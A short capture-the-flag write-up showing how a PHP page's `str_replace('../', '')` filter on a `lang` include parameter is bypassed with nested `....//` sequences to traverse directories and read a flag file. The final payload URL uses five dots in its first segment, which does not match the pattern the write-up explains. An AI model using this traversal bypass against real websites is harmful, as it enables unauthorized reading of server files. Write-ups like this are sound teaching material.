 # MiniSTRyplace
This challenge can be solved by taking advantage of a path traversal vulnerability in the templating.

The website contains `lang` parameter with options: `en` and `qw`.

The code in `web_ministryplace/challenge/index.php` shows this php script:

```php=
<?php
$lang = ['en.php', 'qw.php'];
include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```

The issue is with `str_replace`. Since it is replacing `../` with a blank value, we can embed and chain multiple `../` together, for example:
```
../            => ''
....//         => ../
....//....//   => ../../
```
and so on.

With the code provided, we know the flag is up two directories, so we just have to go to `http://<ip><port>/?lang=.....//....//flag`
